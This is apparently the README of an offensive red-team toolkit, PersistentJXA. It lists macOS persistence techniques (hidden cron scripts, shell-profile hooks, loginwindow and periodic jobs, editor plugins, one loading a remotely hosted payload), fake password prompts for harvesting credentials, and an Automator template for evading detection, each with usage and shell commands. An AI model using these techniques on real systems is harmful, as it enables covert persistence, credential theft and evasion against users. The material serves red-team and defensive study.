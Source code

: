# PersistentJXA
Collection of macOS persistence methods and miscellaneous tools in JXA  <br />
Related blog post: https://posts.specterops.io/persistent-jxa-66e1c3cd1cf5

# Usage
* In Apfell :

```JavaScript
jsimport (Selected file)
jsimport_call <NameOfPersistenceScript>(ScriptArguments)
```


| Project | Description | Usage | Artifacts Created | Commandline Commands Executed
| :------ | :---------- | :----------- | :----------- | :----------- |
| **BashProfile** |  Modifies user's bash profile to execute script if the persistence process (current implementation assumes osascript) is not already running. If Catalina system then .zshenv is modified. <br /> Persistence executes on terminal open. | js_importcall BashProfile('osascript -l JavaScript -e ...') |  $HOME/.security/apple.sh <br />  $HOME/.security/update.sh <br />  $HOME/.bash_profile or  $HOME/.zshenv| chmod +x $HOME/.security/apple.sh <br /> <br /> chmod +x $HOME/.security/persist.sh <br /> <br /> sh $HOME/.security/apple.sh <br /> <br /> sh $HOME/.security/persist.sh|
| **CronJobPersistence** | Persistence using CronJobs. This script will create a hidden file (share.sh) in the current user's Public/Drop Box folder. Writes a cron job with a default interval of 15mins which executes the hidden script.  <br />  (Note: This command generates a user prompt for Catalina. If the user clicks “Don’t Allow” the command should fail with an “operation not permitted"). <br /> Persistence executes every 15 mins. | js_importcall CronJobPersistence('osascript -l JavaScript -e ...') | $HOME/Public/Drop\ Box/.share.sh <br /> crontab entry | sh -c echo "$(echo '15 * * * * cd $HOME/Public/Drop\\ Box/ && ./.share.sh' ; crontab -l)" \| crontab - <br /> <br /> chmod +x "$HOME/Public/Drop\ Box/.share.sh  <br /> <br /> sh -c (Persistence Action)|
| **FinderSyncPlugins** |  Persistence using Finder Sync Extensions. Requires and app on the target to be setup for abuse. It searches the app for the required files and registers them. <br /> See https://objective-see.com/blog/blog_0x11.html for how to setup. <br />  Persistence executes on login.  |  js_importcall FinderSyncPlugins('/Users/Shared/SyncTest.app') | N/A | pluginkit -a </some/path/persist.appex> & <br /> <br /> pluginkit -e use -i <FinderSynsBundleID> & |
| **LoginScript** | **Requires Root** Modifies login window plist for persistence. Persistence executes on login. | js_importcall LoginScript('osascript -l JavaScript -e ...') | /var/root/Library/Preferences/com.apple.loginwindow.plist <br />  <br />/Users/Shared/.security/test.sh | chmod +x /Users/Shared/.security/test.sh & <br />  <br /> sh -c (Persistence Action) |
| **PeriodicPersist** | **Requires Root** Create a daily job in /etc/periodic/daily. Persistence executes  daily. | js_importcall PeriodicPersist('osascript -l JavaScript -e ...') | /etc/periodic/daily/111.clean-hist | chmod +x /etc/periodic/daily/111.clean-hist & <br />  <br /> sh -c (Persistence Action)|
| **SublimeTextAppScriptPersistence** | Persistence using the Sublime Text application script. Appends the application script for Sublime to execute our command.. <br /> Persistence executes upon Sublime opening. <br /> See https://theevilbit.github.io/posts/macos_persisting_through-application_script_files/ for more details.|js_importcall SublimeTextAppScriptPersistence('osascript -l JavaScript -e ...') | modification to end of /Applications//Sublime\ Text.app/Contents/MacOS/sublime.py | sh -c (Persistence Action) |
| **SublimeTextPluginPersistence** | Persistence using Sublime Text plugins. Creates a plugin file that is executed open the opening of Sublime. <br />  Persistence executes upon Sublime opening. | js_importcall SublimeTextPluginPersistence('/Users/Shared/inject.dylib')| $HOME/Library/Application\ Support/Sublime\ Text\  [2 or 3] /PrettyText/PrettyText.py  | N/A |
| **VimPluginPersistence** | Persistence using Vim plugins. Creates a plugin file that is executed open the opening of vim. <br />  Persistence executes upon vim opening. | js_importcall VimPluginPersistence('http://path/to/hosted/apfellpayload')  | $HOME/.vim/plugin/d.vim | sh -c (Persistence Action) |

# Misc Scripts / Tools

| Project | Description | Usage | Artifacts Created | Commandline Commands
| :------ | :---------- | :----------- | :----------- | :----------- |
| **DylibHijackScan** | JXA version of Patrick Wardle's tool that searches applications for dylib hijacking opportunities. May generate user pop up if looking into protected fodlers. Requires xcode installed on 10.14.1| js_importcall DylibHijackScan()  | N/A | "sh -c  lsof \| tr -s ' ' \| cut -d' ' -f9 \| sed '/^$/d' \| grep '^/'\| sort \| uniq" <br /> sh -c file "placeholder"  <br /> sh -c  otool -l "placeholder" <br /> |
| **PrivilegedHelperToolSpoof** | Tools searches the installed Privileged Helper Tools "/Library/PrivilegedHelperTools" and leverages legitimate icons and information in an attempt to gain user password credentials. The tool prompts again (with slightly different text) if the first password entry is blank. If no helper tool then default prompt for creds. | js_importcall PrivHelpToolSpoof() | N/A | sh -c launchctl plist __TEXT,__info_plist /Library/PrivilegedHelperTools/ <arrary> \| grep -A1 AuthorizedClients" |
| **OutlookUpdatePrompt** | Tool which prompts the user for and update in an attempt to gain password credentials. Attempts to bring a prompt using outlook icon if installed otherwise uses standard cog. Returns credentials from prompt entry to the user. | js_importcall OutlookUpdatePrompt() | N/A | N/A |
| **WorkflowTemplate** | A template for Automator to execute JXA. This is to evade simple detections on commandline osascript. After replacing the placeholder (JXA PAYLOAD HERE) with the desired js script, it can be executed by  /usr/bin/automator /path/to/file/Workflow.wflow. Requires the file to be on host but can be leveraged in combination with the above persistence methods | /usr/bin/automator /path/to/file/Workflow.wflow | /path/to/file/Workflow.wflow  | /usr/bin/automator /path/to/file/Workflow.wflow|
